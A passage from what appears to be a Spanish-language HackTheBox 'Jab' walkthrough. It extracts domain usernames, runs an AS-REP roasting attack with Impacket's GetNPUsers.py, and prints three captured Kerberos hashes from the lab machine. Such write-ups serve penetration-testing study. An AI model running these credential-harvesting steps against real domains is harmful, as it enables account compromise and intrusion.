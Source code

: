 <img src="/assets/HTB/Jab/results.png">

Ahora sólo nos queda filtrar los nosmbres de usuarios mediante una expresión regular.

```bash
cat results.txt | grep -oP '(?<=<value>).*?(?=</value>)' | grep "jab.htb" | sort -u | awk '{print $1}' FS='@' > users
```

## ASREP ROAST ATTACK

Con la herramnienta `GetNPUsers` de la suite de [Impacket](https://github.com/fortra/impacket) procedemos a ejecutar un ASREP Roast Attack con la intención de capturar algún hash de la lista de usuarios creada previamente.

```bash
GetNPUsers.py -no-pass -usersfile users jab.htb/ -output hashes
```

Una vez finalizado el ataque conseguimos los hashes de 3 usuarios.

```ruby
❯ cat hashes
───────┬────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
       │ File: hashes
───────┼────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
   1   │ $krb5asrep$23$jmontgomery@JAB.HTB:beafb62a4c6d9117cbd5775c93332acb$ec63bd45934ad2efcc59686c3f99a03b697889de573a7f7fe0100efc055245d8b573c284c11cb5d493f646cc1ca075a51d5dbf3c36b70b333768f7060c7bccd607997994c41714b09d8b1b5567c2b540d208b30f989f
       │ 81942043ed03be42896095f69cfb6f4b92a3f7084d6d5177d64b04564bd36d97cd449255b75705c2c33ec20c6309649e3e0aaf28188930631e5067532939e951881deadc406444251629a6842d115d8b174ad0df7b82d0e2a31bd6e99866644afa6c3e18569cb59cb25e9b3ab01f21617b2a5f64c3bd8d4
       │ 384bb84860b22e7affbeb1c0661b560c7993c1e20
   2   │ $krb5asrep$23$lbradford@JAB.HTB:fe119e92a8782ceb0f6ef68b4cfd6cba$107eebaeef2be345fab3d1e3e0fc7cdc93b59e0cb869696fda802fb88688a077662b6540550121a5678dc6259462d5072e90c88dbd86a6d27385cc109c2df097954922c27dd64748eed672920d63a4071556a2ffc1e5d0
       │ 62b767d239af53ee88c6ce1c0308809ca1743c3c9934fbd733ce5891ca6b6100bbc06a4f3c824a0e07bde7773ee41eed48863f97936f607f4acf4e570cd89fd28c5ef920d436921ea33bdc2802bf0d38ce4dc1f80edb7eb1dcc85e35975332c807e85c760a46cd34ef9e4d30b1242eda5f974b220ff4730
       │ c5a1cc45ab8d1cfdd939b285416ecd7aa3d114f
   3   │ $krb5asrep$23$mlowe@JAB.HTB:8f0a06fc043121862fd064c726bdc910$d71c68b3c0bf3408e3b24e16641385f8d1f16616a70b27f25708629325a446ea898dd8e74d7a74622f5222aef8ba3c410ace04dbde13af138633f315cd65d6c2830d4156148ae673307664de8f8f13a56583b4b7f28c787913
       │ b619624d216ea85ba930e99e637608c1329801234e67f56e82d04c5cf6646863fdb05bd0a999eb4646d4870358f5021b3d9b916f112b43ce987a22003cc806a6434b6bf000c5d7b3349023dae799f597b3a0467c5015c508331dda11ee1247399561e0b290dd2d3f64f0b35c0f1f00efcf4eda3e639c5d0
       │ 26008d7db1af045064bd93cb325f923c683
```